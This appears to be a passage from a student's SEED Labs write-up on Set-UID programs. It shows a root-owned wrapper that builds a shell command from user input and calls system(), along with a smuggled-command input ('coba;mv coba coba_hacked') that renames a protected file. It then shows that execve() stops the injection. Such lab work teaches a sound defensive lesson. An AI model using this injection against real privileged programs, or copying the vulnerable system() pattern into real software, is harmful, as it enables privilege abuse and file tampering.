 ```c
    command = malloc(strlen(v[0]) + strlen(v[1]) + 2);
    sprintf(command, "%s %s", v[0], v[1]);
    
    // Use only one of the followings.
    system(command);
    // execve(v[0], v, NULL);
    
    return 0;
}
```

### Step 1

Compile the above program, make root its owner, and change it to a Set-UID program. The program will use `system()` to invoke the command. If you were Bob, can you compromise the integrity of the system? For example, can you remove a file that is not writable to you?

```sh
[09/21/22]seed@VM:~$ vim task8.c
[09/21/22]seed@VM:~$ gcc task8.c -o task8
[09/21/22]seed@VM:~$ sudo chown root task8
[09/21/22]seed@VM:~$ sudo chmod 4755 task8
[09/21/22]seed@VM:~$ ls -la task8
-rwsr-xr-x 1 root seed 16928 Sep 21 13:54 task8
```

yes, we can remove, mv and others with root privileges if we run the above program, by:

./task8 "coba;mv coba coba_hacked"
by giving a semicolon to the filename and adding another new command.

```sh
[09/21/22]seed@VM:~$ echo "test" > coba
[09/21/22]seed@VM:~$ ./task8 "coba;mv coba coba_hacked"
test
[09/21/22]seed@VM:~$ ls
coba_hacked        mylib.c   res.out    task3.c  task8.c
Desktop            mylib.o   step1      task4    Templates
Documents          myprog    step1.c    task4.c  Videos
Downloads          myprog.c  task3      task5
libmylib.so.1.0.1  Pictures  task3_1    task5.c
Music              Public    task3_1.c  task8
[09/21/22]seed@VM:~$ ls coba*
coba_hacked
```

### Step 2

Comment out the `system(command)` statement, and uncomment the `execve()` statement; the program will use `execve()` to invoke the command. Compile the program, and make it Set-UID (owned by root). Do your attacks in Step 1 still work? 

```sh
[09/21/22]seed@VM:~$ ./task8-2 "coba;mv coba coba_2"
/bin/cat: 'coba;mv coba coba_2': No such file or directory
```
we can't attack.
